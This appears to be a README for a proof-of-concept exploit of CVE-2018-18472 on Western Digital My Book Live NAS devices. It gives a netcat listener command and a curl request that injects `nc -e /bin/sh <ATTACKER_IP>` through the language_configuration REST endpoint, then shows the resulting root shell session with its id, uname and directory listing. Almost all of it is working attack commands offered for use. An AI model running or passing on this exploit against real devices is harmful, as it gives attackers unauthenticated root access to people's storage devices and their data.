 # My Book Live reverse shell

This reverse shell PoC is based on **CVE-2018-18472**. Research was done by **WizCase**. Source: <https://iotsecuritynews.com/wizcase-report-vulnerabilities-found-in-wd-my-book-netgear-stora-seagate-home-medion-lifecloud-nas/>

1. Turn on TLSv1.0 support in OpenSSL library: <https://www.maartendekeizer.nl/blog/detail/fix-curl-35-error-1425f102-ssl-routines-ssl_choose_client_version-unsupported-protocol>

2. Start `ncat` listener:

```
nc -lvnp 9999
```
3. Execute REST API calling:

```
curl -k -X PUT -d 'language=en_US`nc -e /bin/sh <ATTACKER_IP> 9999`' https://<VICTIM_IP>/api/1.0/rest/language_configuration
```

4. Enjoy your reverse shell!
```
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from <VICTIM_IP>.
Ncat: Connection from <VICTIM_IP>:51490.
id
uid=0(root) gid=0(root) groups=0(root),33(www-data),1000(share)
uname -a
Linux MyBookLive 2.6.32.11-svn70860 #1 Thu May 17 13:32:51 PDT 2012 ppc GNU/Linux
ls -la /
total 336
drwxr-xr-x  25 root root      4096 Jun 24 04:22 .
drwxr-xr-x  25 root root      4096 Jun 24 04:22 ..
drwxrwxrwx  14 root www-data 65536 Jun 23 21:54 CacheVolume
drwxr-xr-x   6 root root     65536 Jun 14 18:48 DataVolume
drwxr-xr-x   2 root root      4096 May  8  2015 bin
drwxr-xr-x   3 root root      4096 Jun 23 20:44 boot
drwxr-xr-x   2 root root      4096 May  8  2015 debootstrap
drwxr-xr-x  12 root root      2500 Jun 24 04:23 dev
drwxr-xr-x  78 root root      4096 Jun 24 04:24 etc
drwxr-xr-x   3 root root      4096 May  8  2015 home
lrwxrwxrwx   1 root root        24 May  8  2015 led_color -> /usr/local/nas/led_color
drwxr-xr-x  11 root root      4096 May  8  2015 lib
drwx------   2 root root     16384 May  8  2015 lost+found
drwxr-xr-x   2 root root      4096 May  8  2015 media
drwxrwxr-x   8 root share    65536 Jun 23 21:40 nfs
drwxr-xr-x   2 root root      4096 May  8  2015 opt
dr-xr-xr-x 105 root root         0 Jan  1  1970 proc
drwxr-xr-x   5 root root      4096 Jun 23 21:51 root
drwxr-xr-x   2 root root      4096 May  8  2015 sbin
drwxr-xr-x   2 root root      4096 May  8  2015 selinux
drwxrwxr-x   8 root share    65536 Jun 23 21:40 shares
drwxr-xr-x   2 root root      4096 May  8  2015 srv
drwxr-xr-x  12 root root         0 Jan  1  1970 sys
drwxrwxrwt  13 root root      1320 Jun 24 04:50 tmp
drwxr-xr-x  14 root root      4096 May  8  2015 usr
drwxr-xr-x  13 root root      4096 May  8  2015 var

```
